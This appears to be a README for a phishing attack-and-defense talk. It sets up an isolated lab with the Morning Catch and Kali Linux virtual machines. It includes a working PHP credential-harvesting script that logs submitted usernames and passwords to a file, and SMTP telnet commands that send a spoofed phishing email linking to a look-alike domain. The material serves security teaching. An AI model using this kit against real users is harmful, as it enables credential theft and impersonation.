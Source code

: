 # Intro to Phishing: Attack and Defense
## Topic
Phishing is one of the few attack vectors that has become more popular over time, even today large campaigns are carried out against the general public and spear phishing attacks are targeting specific corporations. This week we will be looking at examples of past attacks, the different stages of the phishing process and how you can defend your company or family and friends against attacks. There will be a demo of a credential harvesting attack using "Morning Catch", you can follow along during the talk by setting up the VM environment detailed here: https://github.com/dc865/presentations/blob/master/intro-to-phishing/README.md

## Demo Environment

### Downloads

 - [Morning Catch - A Phising Paradise](http://blog.cobaltstrike.com/2014/08/06/introducing-morning-catch-a-phishing-paradise/)
 - [Morning Catch VulnHub.com Download](https://www.vulnhub.com/entry/morning-catch-phishing-industries,101/)
 - [Kali Linux Downloads](https://www.kali.org/downloads/)

### Virtual Machine Setup

#### VMware Player 

Morning Catch
 - Unzip morningcatch.zip
 - Open it by selecting the **Mint.vmx** file
 - Edit the virtual machine settings and change the network adapter from NAT to Host Only. 

Kali Linux
 - Create a new virtual machine and select the Kali iso as the installation media 
 - Follow the setup instructions and change the Network Adapter to Host Only
 - Choose Install from the Kali boot menu and follow the installation instructions 

#### VirtualBox 

Morning Catch 
 - unzip morningcatch.zip
 - Create a new virtual machine and use Mint.vmdk as the storage device
 - Set the networking to Host Only 

Kali Linux
 - Create a new virtual machine and select the Kali iso as the installation media 
 - Follow the setup instructions and change the Network Adapter to Host Only
 - Choose Install from the Kali boot menu and follow the installation instructions 

### Networking Setup

Add the Kali host entry to /etc/hosts in Morning Catch:

```
<Attacker IP>	mornincatch.ph
```


Add the Morning Catch and Kali host entries to /etc/hosts on the Kali VM: 

```
<Attacker IP>	mornincatch.ph
<Victim IP>	morningcatch.ph
```

### Test the Demo Environment

On Morning Catch log in as Boyd Jenius and open a terminal. Try to ping the Kali VM using the hostname you added to /etc/hosts:

```bash
$ ping mornincatch.ph
```

On the Kali VM log in using the account you created and verify that the morningcatch.ph services are available:

```bash
$ ping morningcatch.ph
$ nc -z morningcatch.ph 25
$ firefox morningcatch.ph
```

### PHP Script for Saving Credentials

```php
<?php

$user = $_POST['_user'];
$pass = $_POST['_pass'];

$f = fopen("creds.txt", "a");

fwrite($f, "$user:$pass\n");

fclose();
header("Location: http://morningcatch.ph/mail/");
die();
?>
```

## Email Commands

```
telnet morningcatch.ph 25
ehlo morningcatch.ph
mail from: bjenius@morningcatch.ph
rcpt to: rbourne@morningcatch.ph
data
Subject: 

We are currently testing a new performance configuration for the webmail site, please test the site changes by visiting: http://mornincatch.ph/mail/

Boyd

.
quit
```
